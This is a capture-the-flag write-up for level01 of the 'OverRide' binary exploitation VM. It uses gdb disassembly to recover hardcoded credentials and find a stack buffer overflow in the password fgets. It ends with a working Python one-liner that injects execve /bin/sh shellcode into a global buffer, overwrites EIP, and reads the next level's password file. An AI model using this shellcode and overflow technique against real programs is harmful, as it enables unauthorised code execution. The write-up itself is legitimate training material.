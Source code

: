 ```shell
┌──$ [~/42/2022/override]
└─>  ssh -p4242 192.168.0.23 -l level01
     ____                  ____  _     __
    / __ \_   _____  _____/ __ \(_)___/ /__
   / / / / | / / _ \/ ___/ /_/ / / __  / _ \
  / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
  \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.0.23:4242
level01@192.168.0.23's password: uSq2ehEGT6c9S24zbshexZQBXUGrncxn5sD5QfGL

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level01/level01
```
Three user functions and a global uninitialized variable of 100 bytes are declared.
```nasm
gdb-peda$ info functions
All defined functions:

[...]
0x08048464  verify_user_name
0x080484a3  verify_user_pass
0x080484d0  main
[...]
```
```shell
level01@OverRide:~$ objdump -t ./level01 | grep bss
[...]
0804a040 g     O .bss 00000064              a_user_name
```
Declaration and initialization of local array `user_pass` to value `0`.
```nasm
gdb-peda$ disass main
[...]
   0x080484d8 <+8>: sub    esp,0x60
   0x080484db <+11>:  lea    ebx,[esp+0x1c]
   0x080484df <+15>:  mov    eax,0x0
   0x080484e4 <+20>:  mov    edx,0x10
   0x080484e9 <+25>:  mov    edi,ebx
   0x080484eb <+27>:  mov    ecx,edx
   0x080484ed <+29>:  rep stos DWORD PTR es:[edi],eax
[...]
```
It gets a user name from `stdin`.
```nasm
gdb-peda$ disass main
[...]
   0x08048510 <+64>:  mov    eax,ds:0x804a020          # stdin
   0x08048515 <+69>:  mov    DWORD PTR [esp+0x8],eax
   0x08048519 <+73>:  mov    DWORD PTR [esp+0x4],0x100 # 256 bytes
   0x08048521 <+81>:  mov    DWORD PTR [esp],0x804a040 # a_user_name
   0x08048528 <+88>:  call   0x8048370 <fgets@plt>
[...]
```

It initialize `esi` register to point at `a_user_name` and the `edi` register to the string `dat_wil`. Then it repeats a comparaison of bytes as long as `[esi]` and `[edi]` are equal.
So input can begin with exact match and the rest part can be anything.
```nasm
gdb-peda$ disass verify_user_name
[...]
   0x08048478 <+20>:  mov    edx,0x804a040
   0x0804847d <+25>:  mov    eax,0x80486a8
   0x08048482 <+30>:  mov    ecx,0x7
   0x08048487 <+35>:  mov    esi,edx
   0x08048489 <+37>:  mov    edi,eax
   0x0804848b <+39>:  repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
[...]
gdb-peda$ x/s 0x804a040
0x804a040 <a_user_name>:  ""
gdb-peda$ x/s 0x80486a8
0x80486a8:  "dat_wil"
```
It gets a user password from `stdin` and calls `verify_user_pass` function.
```nasm
gdb-peda$ disass main
[...]
   0x0804855c <+140>: mov    eax,ds:0x804a020
   0x08048561 <+145>: mov    DWORD PTR [esp+0x8],eax
   0x08048565 <+149>: mov    DWORD PTR [esp+0x4],0x64
   0x0804856d <+157>: lea    eax,[esp+0x1c]
   0x08048571 <+161>: mov    DWORD PTR [esp],eax
   0x08048574 <+164>: call   0x8048370 <fgets@plt>
   0x08048579 <+169>: lea    eax,[esp+0x1c]
   0x0804857d <+173>: mov    DWORD PTR [esp],eax
   0x08048580 <+176>: call   0x80484a3 <verify_user_pass>
[...]
```
Inside `verify_user_pass` it compares bytes of `user_pass` and litteral string `admin`, then return the result.
```nasm
[...]
gdb-peda$ disass verify_user_pass
[...]
   0x080484a8 <+5>:  mov    eax,DWORD PTR [ebp+0x8]
   0x080484ab <+8>:  mov    edx,eax
   0x080484ad <+10>: mov    eax,0x80486b0
   0x080484b2 <+15>: mov    ecx,0x5
   0x080484b7 <+20>: mov    esi,edx
   0x080484b9 <+22>: mov    edi,eax
   0x080484bb <+24>: repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x080484bd <+26>: seta   dl
   0x080484c0 <+29>: setb   al
[...]
gdb-peda$ x/s 0x80486b0
0x80486b0:  "admin"
```
But use of retrieved credentials, username `dat_wil` and password `admin`, do not allow anything and the program returns 1 with error message `nope, incorrect password...`.
```nasm
   0x08048589 <+185>:   cmp    DWORD PTR [esp+0x5c],0x0
   0x0804858e <+190>:   je     0x8048597 <main+199>
   0x08048590 <+192>:   cmp    DWORD PTR [esp+0x5c],0x0
   0x08048595 <+197>:   je     0x80485aa <main+218>
```
```shell
level01@OverRide:~$ ./level01; echo $?
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...

1
```
`fgets()` reads in at most one less than 100 bytes from `stdin` and stores the input into the 64-bytes buffer `user_pass`. Which is 36 bytes more than allocated buffer. It means that `user_pass` variable can be overflowed and the value of `EIP` can be overwritten.
```nams
   0x0804855c <+140>:   mov    eax,ds:0x804a020          // eax = stdin
=> 0x08048561 <+145>:   mov    DWORD PTR [esp+0x8],eax   // stdin);
   0x08048565 <+149>:   mov    DWORD PTR [esp+0x4],0x64  // 100, stdin);
   0x0804856d <+157>:   lea    eax,[esp+0x1c]            // eax = user_pass
   0x08048571 <+161>:   mov    DWORD PTR [esp],eax       // user_pass, 100, stdin);
   0x08048574 <+164>:   call   0x8048370 <fgets@plt>     // fgets(user_pass, 100, stdin);
```

To find offset, generate a string of 100 bytes legth using [BOEIPOSG](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/).
```nasm
(gdb) start
Temporary breakpoint 1 at 0x80484d5
Starting program: /home/users/level01/level01

Temporary breakpoint 1, 0x080484d5 in main ()
(gdb) c
Continuing.
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
Program exit on `EIP` value 0x37634136 which gives offset of 80 bytes.

As `a_user_name` is defined with 100 bytes, a shell code can be placed after `dat_wil` and EIP overwritten to `a_user_name+7`.
```shell
level01@OverRide:~$ (python -c "import struct; print('dat_wil\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + '\n' + 'A'*80 + struct.pack('I', 0x0804a047))"; echo 'cat /home/users/$(whoami)/.pass') | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
